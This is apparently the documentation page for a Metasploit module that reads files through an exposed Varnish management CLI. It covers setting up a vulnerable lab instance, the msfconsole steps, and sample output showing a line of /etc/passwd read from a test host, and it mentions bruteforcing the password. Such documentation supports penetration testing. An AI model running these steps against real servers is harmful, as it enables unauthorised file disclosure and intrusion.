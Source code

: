## Vulnerable Application

  Ubuntu 14.04 can `apt-get install varnish`.  At the time of writing that installed varnish-3.0.5 revision 1a89b1f.
  Kali installed varnish-5.0.0 revision 99d036f
  
  Varnish installed and ran the cli on localhost.  First lets kill the service: `sudo service varnish stop`.  Now, there are two configurations we want to test:

  1. No Authentication: `varnishd -T 0.0.0.0:6082`
  2. Authentication (based on shared secret file): `varnishd -T 0.0.0.0:6082 -S <file>`.
    1. I made an easy test one `echo "secret" > ~/secret`

## Verification Steps

  Example steps in this format:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/varnish/varnish_cli_file_read```
  4. Do: ```set password <password>```
  5. Do: ```run```
  6. Get the first line of a file

## Options

### PASSWORD

  String to use as the password.  May be bruteforced via `modules/auxiliary/scanner/varnish/varnish_cli_login`

### FILE

  File to attempt to read the first line of

## Scenarios

  Running against Ubuntu 14.04 with varnish-3.0.5 revision 1a89b1f and NO AUTHENTICATION

  ```
    resource (varnish_read.rc)> use auxiliary/scanner/varnish/varnish_cli_file_read
    resource (varnish_read.rc)> set password secret
    password => secret
    resource (varnish_read.rc)> set rhosts 192.168.2.85
    rhosts => 192.168.2.85
    resource (varnish_read.rc)> set verbose true
    verbose => true
    resource (varnish_read.rc)> run
    [+] 192.168.2.85:6082     - 192.168.2.85:6082 - LOGIN SUCCESSFUL: No Authentication Required
    [+] 192.168.2.85:6082     - root:x:0:0:root:/root:/bin/bash
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```

  Running against Ubuntu 14.04 with varnish-3.0.5 revision 1a89b1f

  ```
    msf auxiliary(varnish_cli_file_read) > run
    
    [+] 192.168.2.85:6082     - root:x:0:0:root:/root:/bin/bash
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```

